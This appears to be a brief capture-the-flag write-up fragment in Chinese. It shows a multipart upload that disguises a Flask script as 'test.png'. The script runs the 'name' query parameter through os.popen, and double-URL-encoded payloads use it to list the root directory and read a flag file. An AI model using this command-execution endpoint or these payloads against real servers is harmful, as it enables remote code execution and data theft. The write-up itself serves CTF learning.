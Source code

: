 ```http
Filepath: /app/server.py

--01f54ee8f2872c8a0d42d14f70cdc1fe
Content-Disposition: form-data; name="file"; filename="test.png"
Content-Type: image/png

from flask import *
import os
app = Flask(__name__)

@app.route('/')
def index():
    name = request.args['name']
    file=os.popen(name).read()
    return file

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=5000, debug=True)
--01f54ee8f2872c8a0d42d14f70cdc1fe--
```



双重url编码SSRF

```
?name=?name=ls%25%32%30/
```

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241209215157076.png)

```
?name=?name=cat%25%32%30/th1s_1s_f13g
```

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241209215219048.png)

